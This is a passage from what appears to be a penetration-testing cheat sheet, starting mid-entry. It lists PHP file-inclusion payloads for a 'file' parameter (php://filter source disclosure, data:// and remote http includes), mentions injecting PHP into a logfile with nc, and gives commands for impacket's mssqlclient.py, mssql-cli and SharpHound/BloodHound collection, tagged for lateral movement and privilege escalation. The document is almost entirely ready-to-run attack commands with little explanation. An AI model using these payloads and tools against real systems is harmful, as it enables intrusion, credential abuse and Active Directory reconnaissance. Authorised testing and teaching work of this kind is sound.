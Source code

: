 ## specify your payload in the post parameters
### using php stream php://filter
- `?file=php://filter/convert.base64-encode/resource=index.php`

### using data uri
- `?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`

### using xss
- `?file=http://127.0.0.1/path/xss.php?xss=phpcode`

## inject php code in logfile with nc and retrieve it afterwards
> search for nc

--- 

# mssqlclient.py
- service: sql
- tactics: lateral_movement
- suites: impacket

## connect to windows mssql Server
- `mssqlclient.py -windows-auth username@target-ip`

---

# mssql-cli
- service: sql
- tactics: lateral_movement

## connect to windows mssql Server
- `mssql-cli -S target-ip -U username`

---

# bloodhound
- service: ldap
- serivce: active_directory
- tactics: lateral_movement
- tactics: privilege_escalation

## invoke-bloodhound from sharphound.ps1 
- `import-module .\sharphound.ps1`
- `invoke-bloodHound -CollectionMethod All -domain target-domain -LDAPUser username -LDAPPass password`

---